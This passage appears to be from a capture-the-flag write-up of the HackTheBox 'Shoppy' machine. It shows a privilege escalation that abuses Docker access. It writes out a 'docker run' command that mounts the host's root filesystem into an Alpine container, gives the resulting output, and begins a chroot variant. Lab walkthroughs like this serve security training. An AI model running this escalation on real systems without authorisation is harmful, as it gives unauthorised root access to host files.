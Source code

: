 
There is one image on the box, [apline](https://hub.docker.com/_/alpine), a
very small image with limited functionality:

    
    
    deploy@shoppy:~$ docker images
    REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
    alpine       latest    d7d3d98c851f   5 months ago   5.53MB
    

### Access Filesystem as root

#### Basic

The exploit here is to create a new container that has the entire file system
mounted into it. In that container, I’ll be root, and thus have full access to
all the files in the container (including the full host filesystem).

I’ve shown this several times with `lxc` before, but never like this with
Docker ([GoodGames](/2022/02/23/htb-goodgames.html#shell-1) is the closest
example).

I’ll start the container with `docker run` and the following options:

  * `--rm` \- remove the container when it’s done
  * `-it` \- keep STDIN open and assign a PTTY
  * `-v /:/mnt` \- mount the host `/` to `/mnt` inside the container

I’ll also give it the image name (alpine) and the command to run `/bin/sh` (no
`bash` on Alpine). With these, I can start the image and find the host file
system in `/mnt`:

    
    
    deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine /bin/sh
    / # ls
    bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
    / # ls /mnt/
    bin             dev             home            initrd.img.old  lib32           libx32          media           opt             root            sbin            sys             usr             vmlinuz
    boot            etc             initrd.img      lib             lib64           lost+found      mnt             proc            run             srv             tmp             var             vmlinuz.old
    

#### Neat Upgrade

A neat trick from the [Docker GTFObins
page](https://gtfobins.github.io/gtfobins/docker/) is to use `chroot` instead
of `sh` as the command. I don’t really need anything in the container
filesystem. So I’ll call `chroot /mnt /bin/sh` (giving it a command to run as
well, see the [man page](https://linux.die.net/man/1/chroot)). This will set
the root of the filesystem to be what was `/mnt`, and then run a shell. This
gives the feel as if I’m just back on the host:

    
    